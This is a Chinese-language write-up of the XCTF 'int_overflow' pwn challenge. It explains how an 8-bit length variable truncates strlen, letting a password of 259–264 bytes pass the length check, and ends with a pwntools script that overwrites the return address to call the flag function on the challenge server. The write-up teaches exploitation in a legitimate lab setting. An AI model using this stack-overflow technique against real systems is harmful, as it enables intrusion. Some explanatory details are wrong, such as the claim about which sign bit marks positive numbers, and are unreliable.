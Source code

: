 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1

# 分析

整数溢出
int_overflow

整数分为有符号(int)和无符号(unsigned int)两种类型
有符号数以最高位作为其符号位
即正整数最高位为 1，负数为 0
无符号数取值范围为非负数
常见各类型占用字节数如下：
类型 字节 取值范围
int 4 -2147483648~2147483647
short int 2 -32768~32767
long int 4 -2147483648~2147483647
unsigned int 4 0~4294967295
unsigned short int 2 0~65535
unsigned long int 4 0~4294967295

也就是说，对于一个2字节的unsigned short int型变量
它的有效数据长度为两个字节
当它的数据长度超过两个字节
就溢出，溢出的部分则直接忽略
使用相关变量时，使用的数据仅为最后2个字节
因此就会出现65539等于3的情况
其他类型变量和数值与之类似。

造成输出错误的原因在于把32 bit的int整数赋值给16bit的unsign short整数，赋值后只会取数值的后16bit值，高位截断，造成整数溢出

0B = 二进制
bin(65535) =‘000b 1111 1111 1111 1111’
bin(65539) = ‘0001 0000 0000 0000 0011’
bin(3) = ‘0000 0000 0000 0000 0011’

可以看到 bin(65539) 最终的值为0011 bin(3)也相同
RELRO:Partial RELRO


在mian函数中看到调用login函数其他的地方没问题

好像也没什么问题 但是出现了危险函数 check_passwd

首先 v3 设置了一个 unsigned _int8 v3 无符号 8位参数
v3 = 0 ~ 255
然后 v3 = strlen(s);
unsigned _init8 v3; 长度最大为8位 255
len是个unsigned int 8，而strlen()返回值是一个size_t类型的变量，它是无符号32bit的。

在第7行赋值的过程中，编译器会截断后者的末八位赋值给前者。8位的最大值是 255 ，所以如果passwd字符串长度
超过255就会导致溢出.



看到上一层 read读取的时候 可以读取到0x199位数据 远远大于 255


所以存在整数型溢出漏洞.

因为 溢出部分会将后八位赋值给前面 所以 在 255的基础上 加上 原本限制的4 - 8
在溢出后将255多余的部分赋值给v3 然后就能绕过if判断.

**259 - 264**

算取偏移值

首先看到 我们再绕过if 进入else以后 然后 将s的值赋值给dest然后进行赋值


可以看到 s 入栈以后 到 dest 系统stack默认分配了14个字节给dest
stack中给出的保存passwd的大小为0x14 :

再通过看汇编源码发现最后还有一个leave出栈 需要在多加4个字节

从汇编代码中可以看到，想要覆盖到返回地址，先使用0x14 个数据覆盖stack拷贝的passed的内存区域，然后使用4字节数据覆盖ebp，再使用"cat flag"的地址覆盖返回地址，最后接上262剩余的数据即可。
（1）ESP：栈指针寄存器(extended stack pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈顶。

（2）EBP：基址指针寄存器(extended base pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的底部。

先用 0x14 覆盖掉 stack给dest 也就是 passwd分配的空间 然后 再用四个字节覆盖掉EBP 然后再将返回地址 用 catflag地址覆盖掉 最后将262个剩余的数据接上即可.

取用 262个字节 第一部分 0x14 stack给passwd分配的空间第二部分 0x4 leave分配的4个字节 第三部分 cat flag 占用的 十个字节第四部分 262减去占用的 剩下的部分/payload = ‘A’ * 0x14 + ‘a’ * 0x4 + p32(cat_flag_address) + ‘B’ * 234
p32/64 = 对数据进行打包 转换为2进制数据

```python
from pwn import *

context.log_level = "debug"
context.arch = "amd64"

sh = remote('111.200.241.244', 57354)


payload = b'a' * 0x14 + b'a'*0x4 + p32(0x804868B)

#ljust 返回一个原字符串左对齐,并使用空格填充至指定长度的新字符串。如果指定的长度小于原字符串的长度则返回原字符串。
payload = payload.ljust(260, b'a')

sh.recvuntil("Your choice:")
sh.sendline('1')
sh.recvuntil("Please input your username:")
sh.sendline('a')
sh.recvuntil("Please input your passwd:")
sh.sendline(payload)
sh.interactive()
```

